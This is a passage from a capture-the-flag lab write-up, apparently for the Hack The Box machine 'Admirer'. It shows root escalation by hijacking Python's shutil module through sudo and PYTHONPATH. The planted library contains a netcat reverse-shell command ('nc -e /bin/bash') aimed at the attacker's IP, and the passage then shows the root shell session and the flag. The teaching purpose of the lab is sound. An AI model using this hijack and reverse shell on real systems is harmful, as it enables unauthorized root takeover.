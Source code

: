 ## Hooking the `sh_util` library

We can write a custom `sh_util` library...

~~~
waldo@admirer:~$ TMP=$(mktemp -d)
waldo@admirer:~$ cd $TMP
waldo@admirer:/tmp/tmp.0rx1UTLBlF$ cat > shutil.py << EOF
> import os
> def make_archive(dst, tar, src):
>     os.system("nc -e /bin/bash 10.10.14.22 4444")
> EOF
~~~

...and force the program to use this library:

~~~
waldo@admirer:/tmp/tmp.0rx1UTLBlF$ sudo PYTHONPATH=$TMP /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
~~~

## Root flag

In a listener that was running prior to executing the script, we now have a privileged shell:

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.187] 39596
id
uid=0(root) gid=0(root) groups=0(root)
ls -la /root
total 36
drwx------  3 root root 4096 Apr 22 11:45 .
drwxr-xr-x 22 root root 4096 Apr 16 13:30 ..
lrwxrwxrwx  1 root root    9 Nov 29  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Nov 30  2019 .bashrc
-rw-------  1 root root   50 Dec  3  2019 .lesshst
lrwxrwxrwx  1 root root    9 Nov 29  2019 .mysql_history -> /dev/null
drwxr-xr-x  2 root root 4096 Nov 30  2019 .nano
-rw-r--r--  1 root root  148 Jun 10  2018 .profile
-rw-------  1 root root   33 Sep 11 16:18 root.txt
-rw-r--r--  1 root root   66 Apr 22 11:45 .selected_editor
-rw-r--r--  1 root root  165 Dec  2  2019 .wget-hsts
cat /root/root.txt
6f1e3d93678a82b0c254fa318930619e
~~~

Root flag: `6f1e3d93678a82b0c254fa318930619e`
